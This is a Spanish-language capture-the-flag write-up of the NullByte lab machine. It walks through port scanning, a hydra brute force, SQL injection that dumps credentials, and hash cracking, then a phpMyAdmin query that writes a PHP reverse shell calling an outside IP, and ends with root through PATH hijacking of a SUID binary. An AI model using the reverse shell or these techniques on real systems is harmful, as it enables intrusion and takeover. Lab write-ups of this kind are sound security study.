

NullByte
Posted on February 28, 2024
❯ Hacemos un escaneo de puertos con nmap.
nmap -p- --open -n --min-rate 5000 -sVC -Pn -vvv ipVcictima -oN targeted
❯ Entramos al puerto 80 y vemos esta imagen, le pasamos exiftool y encontramos lo que parece ser una password.
❯ Descubrimos que es un directorio, entramos y nos pide una key.
❯ Al mirar el codigo fuente encontramos un mensaje que nos dice que la contraseñá es debil.
❯ Hacemos un ataque de fuerta bruta con hydra y encontramos una contraseña.
❯ Introducimos la contraseña en el campo key y nos lleva a otra pagina.
❯ Vemos un campo que nos pide un nombre de usuario, hacemos una peticion y la interceptamos con burpsuite.
Enviamos la peticion al repetear, cambiamos el motodo de envio a POST y al enviarla vemos dos usuarios
❯ En la url introducimos isis por ejemplo y unas comillas dobles, vemos que nos da un error de MySQL.
❯ Descubrimos con order by que hay 3 columnas y que la columna 3 es vulnerable a la inyeccion.
Listamos el nombre de la base de datos actualmente en uso
❯ Ahora desde burpsuite mas comodamente listamos todas las bases de datos existentes.
❯ Listamos las tablas de la base de datos seth y vemos una tabla users.
❯ Listamos las columnas de la tabla users de la base de datos seth separado por comas.
❯ Volcamos los datos de las columnas y vemos hash en base64 del usuario ramses.
❯ La decodeamos y nos queda un hash MD5.
❯ La decodeamos y obtenemos una credencial.
❯ Si comprobamos la credencial con hydra vemos que podemos conecctarnos al puerto 777 ssh pero
en este writeup vamos a acceder al sistema de otra forma alternativa.
❯ Si volvemos a burpsuitey volcomas las credenciales mysql.user vemos que encontramos el hash de root.
❯ Comprobamos que tipo de hash es con la herramienta hash-id, vemos que es SHA-1.
❯ Vamos a crackstation y obtenemos una password.

❯ La decodeamos y nos queda un hash MD5.
❯ Nos vamos al directorio phpmyadmin y nos conectamos con el usuario root y la password.
❯ Escribimos esta query en el campo SQL para que nos cree un archivo shell.php con una revershell
en el directorio uploads y recibimos una shell como www-data.
SELECT "& /dev/tcp/192.168.45.248/443 0>&1\"');" into outfile "/var/www/html/uploads/shell.php"
❯ Nos ponemos en escucha con netcat y al entrar a nuestro archivo shell.php recibimos
una revershell por nuestro puerto en escucha.
Escalada de Privilegios
❯ Buscamos por binarios SUID y encontramos uno sospechoso.
❯ Si lo ejecutamos vemos que parece estar ejecutando el comando sh y el comando ps.

❯ Nos vamos al directorio /tmp y nos creamos un archivo de nombre sh y otro de nombre ps.
Dentro de cada archivo tenemos que indicarle que queremos cambiar el permiso de la bash a SUID.
❯ Ahora modificamos el PATH para que empiece a buscar por el directorio /tmp/,
de esta forma cuando ejecutemos el binario procwatch y esto ejecute el comando ps y sh
se ejecutaran primero nuestros comandos maliciosos y le cambiremos los privilegios a la bash
❯ Una vez ejecutado el binario procwatch si listamos los permisos de la bash vemos que es SUID.
Nos lanzamos una bash como root.
